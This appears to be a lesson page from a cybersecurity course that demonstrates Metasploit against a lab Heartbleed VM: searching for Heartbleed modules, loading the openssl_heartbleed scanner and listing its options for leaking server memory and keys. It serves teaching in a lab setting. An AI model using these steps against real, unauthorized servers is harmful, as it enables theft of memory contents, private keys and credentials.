 In the following demonstration, we will use the Kali machine to exploit the Heartbleed VM. 

1. In Kali, launch a terminal and run `msfconsole`.


2. We will use MSFconsole to identify Heartbleed exploits.
  
   - Run `search heartbleed`

    ```bash
    msf > search heartbleed

    Matching Modules
    ================

       Name                                              Disclosure Date  Rank    Check  Description
       ----                                              ---------------  ----    -----  -----------
       auxiliary/scanner/ssl/openssl_heartbleed          2014-04-07       normal  Yes    OpenSSL Heartbeat (Heartbleed) Information Leak
       auxiliary/server/openssl_heartbeat_client_memory  2014-04-07       normal  No     OpenSSL Heartbeat (Heartbleed) Client Memory Exposure
    ```

   - Auxillary modules are reconnaissance tools. They're used to scan networks and detect vulnerabilities such as Heartbleed.

    The first module, `auxiliary/scanner/ssl/openssl_heartbleed`, is used to test a host for the Heartbleed vulnerability.
  
   - Run `use auxiliary/scanner/ssl/openssl_heartbleed`

3. Now, we need to configure the modules before using them. 

    Check which parameters we need to set:

     - Run `show options`

    ```
    msf > use  auxiliary/scanner/ssl/openssl_heartbleed
    msf auxiliary(scanner/ssl/openssl_heartbleed) > show options

    Module options (auxiliary/scanner/ssl/openssl_heartbleed):

      Name              Current Setting  Required  Description
      ----              ---------------  --------  -----------
      DUMPFILTER                         no        Pattern to filter leaked memory before storing
      LEAK_COUNT        1                yes       Number of times to leak memory per SCAN or DUMP invocation
      MAX_KEYTRIES      50               yes       Max tries to dump key
      RESPONSE_TIMEOUT  10               yes       Number of seconds to wait for a server response
      RHOSTS                             yes       The target address range or CIDR identifier
      RPORT             443              yes       The target port (TCP)
      ...
    ```

### 11. Activity: Attacking Heartbleed with Metasploit 

- [Activity File: Attacking Heartbleed with Metaploit](./Activities/12_Metasploit_Heartbleed//Unsolved/README.md)
